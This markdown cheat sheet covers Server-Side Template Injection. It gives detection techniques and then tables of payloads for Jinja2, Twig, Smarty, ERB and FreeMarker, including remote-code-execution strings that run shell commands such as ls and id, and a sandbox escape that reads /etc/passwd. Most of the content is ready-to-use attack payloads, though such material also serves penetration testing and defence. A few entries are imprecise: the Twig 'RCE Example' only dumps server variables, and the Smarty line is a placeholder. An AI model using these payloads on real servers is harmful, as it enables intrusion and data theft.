

### **Introduction**

Server-Side Template Injection (SSTI) is a vulnerability that accurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. SSTI can lead to Remote Code Execution (RCE) on the server.

### **Detection Techniques**

| Technique | Description |
| --- | --- |
| Fuzzing the Template | Inject special characters (e.g., `${{<%[%'"}}%\)` into the template and analyze differences in server responses compared to regular data. |
| Error Responses | Look for thrown errors that reveal the vulnerability and potentially identify the template engine. |
| Reflection Analysis | Check if the payload is absent in the reflection, or parts of it are missing, implying the server processes it differently than regular data. |
| Plaintext Context | Verify if the server evaluates template expressions (e.g., `{{7*7}}`, `${7*7}`) to distinguish from XSS. |

### **Jinja2 (Python)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{{7*7}}` | Returns 49 |
| RCE Example | `{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}` | Output of ls command |
| Sandbox Escape | `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}` | Content of /etc/passwd |

### **Twig (PHP)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{{7*7}}` | Returns 49 |
| RCE Example | `{{ dump(app.request.server.all) }}` | Dumps server variables |
| Sandbox Escape | `{{ _self.env.registerUndefinedFilterCallback("exec") }}{{ _self.env.getFilter("id") }}` | Executes id command |

### **Smarty (PHP)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{math equation="x * y" x=7 y=7}` | Returns 49 |
| RCE Example | `{php}echo shell_exec('ls'){/php}` | Output of ls command |
| Sandbox Escape | `{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME, $exploit_code, $smarty)};` | Writes and executes exploit code |

### **ERB (Ruby)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `<%= 7 * 7 %>` | Returns 49 |
| RCE Example | `<%= system('ls') %>` | Output of ls command |
| Sandbox Escape | Not typically sandboxed, but depends on configuration | N/A |

### **FreeMarker (Java)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `${7*7}` | Returns 49 |
| RCE Example | `${"freemarker.template.utility.Execute"?new()("id")}` | Output of id command |
| Sandbox Escape | `${product.getClass().getDeclaredMethods()[0].invoke(product, null)}` | Invokes method on product |